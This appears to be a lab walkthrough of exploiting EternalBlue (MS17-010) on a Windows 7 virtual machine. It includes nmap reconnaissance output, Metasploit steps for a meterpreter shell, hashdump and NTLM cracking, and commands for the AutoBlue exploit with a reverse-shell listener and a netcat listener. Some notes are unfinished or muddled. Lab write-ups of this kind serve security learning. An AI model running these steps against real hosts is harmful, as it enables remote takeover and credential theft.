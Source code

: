 # **EternalBlue Exploitation | MS17-010 | AL**

The SMBv1 server in Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016 allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." This vulnerability is different from those described in CVE-2017-0144, CVE-2017-0145, CVE-2017-0146, and CVE-2017-0148.

## **Identifying target**

**Target machine:**
windows cmd confirmation with ipconfig 192.168.64.131

**Confirming the target machine on local network**
sudo arp-scan -l

    root@kali:/home/kali# arp-scan -l
    Interface: eth0, type: EN10MB, MAC: 00:0c:29:e4:4b:56, IPv4: 192.168.64.129
    Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
    192.168.64.2    00:50:56:f7:bd:1d       VMware, Inc.
    192.168.64.1    00:50:56:c0:00:08       VMware, Inc.
    192.168.64.131  00:0c:29:9c:4b:83       VMware, Inc.
    192.168.64.254  00:50:56:e1:67:05       VMware, Inc.


## **Test target connecitvity:**
ping 192.168.64.131

    ping 192.168.64.131. 29 packets transmitted 29 received, 0% packet loss.

## **Target scanning using nmap:** 
nmap -sC -sV -T4 --top-ports 1000 192.168.64.131 
      
      kali@kali:~$ nmap -sC -sV -T4 --top-ports 1000 192.168.64.131
      Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-26 08:42 EDT
      Nmap scan report for 192.168.64.131
      Host is up (0.00028s latency).
      Not shown: 992 closed ports
      PORT      STATE SERVICE      VERSION
      135/tcp   open  msrpc        Microsoft Windows RPC
      139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
      49152/tcp open  msrpc        Microsoft Windows RPC
      49153/tcp open  msrpc        Microsoft Windows RPC
      49154/tcp open  msrpc        Microsoft Windows RPC
      49155/tcp open  msrpc        Microsoft Windows RPC
      49156/tcp open  msrpc        Microsoft Windows RPC
      Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows
      
      Host script results:
      |_clock-skew: mean: 16h19m58s, deviation: 2h18m33s, median: 14h59m58s
      |_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:9c:4b:83 (VMware)
      | smb-os-discovery: 
      |   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
      |   OS CPE: cpe:/o:microsoft:windows_7::sp1
      |   Computer name: WIN-845Q99OO4PP
      |   NetBIOS computer name: WIN-845Q99OO4PP\x00
      |   Workgroup: WORKGROUP\x00
      |_  System time: 2024-09-26T23:43:24-04:00
      | smb-security-mode: 
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode: 
      |   2.02: 
      |_    Message signing enabled but not required
      | smb2-time: 
      |   date: 2024-09-27T03:43:24
      |_  start_date: 2024-09-27T03:11:45
      
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 65.81 seconds

## **Vulnerability scanning using nmap:**
nmap --script vuln --top-ports 1000 192.168.64.131 
  
      Host script results:
      |_smb-vuln-ms10-054: false
      |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
      | smb-vuln-ms17-010: 
      |   VULNERABLE:
      |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
      |     State: VULNERABLE
      |     IDs:  CVE:CVE-2017-0143
      |     Risk factor: HIGH
      |       A critical remote code execution vulnerability exists in Microsoft SMBv1
      |        servers (ms17-010).
      |           
      |     Disclosure date: 2017-03-14
      |     References:
      |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
      |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
      |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
      
      Nmap done: 1 IP address (1 host up) scanned in 126.35 seconds


# **TBC here onwards.** 

Research all ports, along with the critical finding in scan number 2.

## **Exploits for Port 135/tcp (Microsoft Windows RPC)**
Port 135 is used by the RPC Endpoint Mapper. Historically, there have been vulnerabilities associated with RPC services, notably:

MS03-026 (CVE-2003-0352): A buffer overflow in the RPC DCOM interface allowing remote code execution.
MS03-039 (CVE-2003-0715): Similar to MS03-026 with additional fixes.

However, these vulnerabilities affect older Windows versions like Windows XP and Windows 2000. Windows 7 SP1 is not affected by these specific vulnerabilities, and they were patched long ago.

## **Exploits for Port 139/tcp (NetBIOS Session Service)**
Port 139 is used for NetBIOS Session Service, which facilitates file and printer sharing over NetBIOS.

Historical Vulnerabilities:
Information Disclosure: Null session attacks could allow an attacker to enumerate users, shares, and other information.
SMB Relay Attacks: Exploiting SMB to relay authentication and gain unauthorized access.
However, these are typically not direct remote code execution vulnerabilities and often require additional conditions or misconfigurations.

    look for auxiliary verison
    check if target ip is vulnerable

    use 3
    set payload to win7/tcp/meterpreter version
    rhost target ip
    run
    
    meterpreter shell access
    sysinfo
    hashdump
    
    crack ntml password
    conduct screenshot
    
    gain nt authority access

# **Manual Exploitation With Reverse TCP Shell [Leveraging Metasploit Reverse Shell Framework]**

## **EndGame GitHub**
    cd /opt/
    git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
    cd autoblue-ms17-010/
    
### **Check**
    run python eternal_checker.py <TARGET-IP>

### **Python3 requirements install**
    pip install -r requirements.txt

### **Configuration of Shell code and reverse listener**
    cd shellcode/
    ./shell_prep.sh
    LPORT for reverse connection: eth0
    LPORT for listener on x64: 9999
    LPORT for listener on x86: 2222
    
    cd..
    ./listener_prep.sh
    LPORT for reverse connection: eth0
    LPORT for listener on x64: 9999
    LPORT for listener on x86: 2222

    python eternalblue_exploit7.py 192.168.64.131

## **In the event we cannot use the Metasploit Shell Framework**

### **Setting Netcat alternative**
    netcat -nlvp 9999
    
